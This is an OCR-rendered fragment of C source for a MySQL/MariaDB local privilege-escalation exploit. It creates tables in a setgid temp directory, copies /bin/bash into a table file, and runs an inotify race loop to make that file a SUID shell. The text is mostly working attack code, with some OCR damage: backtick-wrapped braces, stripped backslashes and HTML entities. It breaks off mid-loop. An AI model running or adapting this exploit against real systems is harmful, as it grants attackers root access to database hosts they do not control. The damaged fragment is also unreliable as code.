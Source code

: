 ```
    int num_read;
    struct inotify_event *event;
    /* credentials */
    char *user     = argv[1];
    char *password = argv[2];
    char *db_host  = argv[3];
    char *database = argv[4];
    // Disable buffering of stdout
    setvbuf(stdout, NULL, _IONBF, 0);
    // Get the params
    if (argc!=5) `{`
usage(argv[0]);
exit(1);
    `}` 
    intro();
    // Show initial privileges
    printf("n[+] Starting the exploit as: n");
    system("id");
    // Connect to the database server with provided credentials
    printf("n[+] Connecting to the database `%s` as %s@%sn", database, user, db_host);
    conn = mysql_init(NULL);
    if (!mysql_real_connect(conn, db_host, user, password, database, 0, NULL, 0)) `{`
        fprintf(stderr, "%sn", mysql_error(conn));
        exit(1);
    `}`
    // Prepare tmp dir
    printf("n[+] Creating exploit temp directory %sn", "/tmp/" EXP_DIRN);
    umask(000);
    system("rm -rf /tmp/" EXP_DIRN " &amp;&amp; mkdir /tmp/" EXP_DIRN);
    system("chmod g+s /tmp/" EXP_DIRN );
    // Prepare exploit tables :)
    printf("n[+] Creating mysql tables nn");
    mysql_cmd("DROP TABLE IF EXISTS exploit_table", 0);
    mysql_cmd("DROP TABLE IF EXISTS mysql_suid_shell", 0);
    mysql_cmd("CREATE TABLE exploit_table (txt varchar(50)) engine = 'MyISAM' data directory '" EXP_PATH "'", 0);
    mysql_cmd("CREATE TABLE mysql_suid_shell (txt varchar(50)) engine = 'MyISAM' data directory '" EXP_PATH "'", 0);
    // Copy /bin/bash into the mysql_suid_shell.MYD mysql table file
    // The file should be owned by mysql:attacker thanks to the sticky bit on the table directory
    printf("n[+] Copying bash into the mysql_suid_shell table.n    After the exploitation the following file/table will be assigned SUID and executable bits : n");
    system("cp /bin/bash " SUID_SHELL);
    system("ls -l " SUID_SHELL);
    // Use inotify to get the timing right
    fd = inotify_init();
    if (fd &lt; 0) `{`
        printf("failed to inotify_initn");
        return -1;
    `}`
    ret = inotify_add_watch(fd, EXP_PATH, IN_CREATE | IN_CLOSE);
    /* Race loop until the mysql_suid_shell.MYD table file gets assigned SUID+exec perms */
    printf("n[+] Entering the race loop... Hang in there...n");
    while ( is_shell_suid != 1 ) `{`
        cnt++;
if ( (cnt % 100) == 0 ) `{`
 printf("-&gt;");
 //fflush(stdout);
`}`
        /* Create empty file , remove if already exists */
        unlink(MYSQL_TEMP_FILE);
        unlink(MYSQL_TAB_FILE);
   mysql_cmd("DROP TABLE IF EXISTS exploit_table", 1);
```